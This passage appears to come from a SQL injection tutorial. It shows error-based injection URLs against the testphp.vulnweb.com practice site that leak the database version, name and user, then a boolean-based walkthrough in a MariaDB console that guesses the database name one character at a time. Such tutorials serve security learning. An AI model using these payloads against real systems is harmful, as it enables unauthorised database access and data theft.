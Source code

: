 

```
http://testphp.vulnweb.com/listproducts.php?cat=2 or 1=1 group by round(rand(0)) having min(0)#
```



```
http://testphp.vulnweb.com/listproducts.php?cat=2 or 1=1 group by concat(version()," ",database()," ",user()," ",round(rand(0))) having min(0)#
```





### 2. Inferential SQL Injections
#### True/False - Boolean Based

  ```
  MariaDB [y]> use dark;
  Database changed
  
  MariaDB [dark]> show tables;
  +----------------+
  | Tables_in_dark |
  +----------------+
  | login          |
  +----------------+
  1 row in set (0.001 sec)
  
  MariaDB [dark]> select * from login;
  +------+---------+----------+-------------+
  | id   | name    | password | country     |
  +------+---------+----------+-------------+
  |    1 | Sherwin | 12345    | Philippines |
  +------+---------+----------+-------------+
  1 row in set (0.000 sec)
  
  # Getting the length of the database
  
  MariaDB [dark]> select * from login where id=2 or length(database())="1";
  Empty set (0.000 sec)
  
  MariaDB [dark]> select * from login where id=2 or length(database())="4";
  +------+---------+----------+-------------+
  | id   | name    | password | country     |
  +------+---------+----------+-------------+
  |    1 | Sherwin | 12345    | Philippines |
  +------+---------+----------+-------------+
  1 row in set (0.000 sec)
  ```

**Getting the name of the database using substring**

```
MariaDB [dark]> select * from login where id=2 or substring(database(),1,1)="a";
Empty set (0.001 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),1,1)="d";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),2,1)="a";
+------+---------+----------+-------------+
```